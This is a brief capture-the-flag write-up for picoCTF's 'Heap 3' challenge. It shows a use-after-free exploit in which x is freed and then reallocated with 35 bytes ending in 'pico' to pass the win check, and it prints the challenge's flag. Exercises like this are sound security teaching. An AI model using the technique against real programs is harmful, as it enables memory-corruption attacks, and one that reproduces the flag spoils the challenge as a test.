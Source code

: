# Heap 3 #
This is a write-up for [heap 3](https://play.picoctf.org/practice/challange/440).  
`Heap 3` rated medium
The given files are at the `file` directory.  

## The Challenge ##
> This program mishandles memory. Can you exploit it to get the flag?  
> Download the binary [here](./files/binary).  
> Download the source [here](./files/source.c).  
> Connect with the challenge instance here:  
> nc tethys.picoctf.net \<port\>

## How I Solve ## 
To solve this I needed to change the `x->flag` from `bico` to `pico`.  
The way to do this is by freeing the `x` variable and allocate a new object in the same place (if we lucky).  
Lets try it.


Step 1: deleting `x`
```
freed but still in use
now memory untracked
do you smell the bug?

1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 5
```
Step 2: declare a new variable on the same place with 35 chars when the last 5 chars are 'pico\0'
```
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 2
Size of object allocation: 35
Data for flag: 123456789012345678901234567890pico
```

Step 3: try the `win` function
```
1. Print Heap
2. Allocate object
3. Print x->flag
4. Check for win
5. Free x
6. Exit

Enter your choice: 4
YOU WIN!!11!!
picoCTF{now_thats_free_real_estate_a11cf359}
```

We did it! We got that the flag is `picoCTF{now_thats_free_real_estate_a11cf359}`
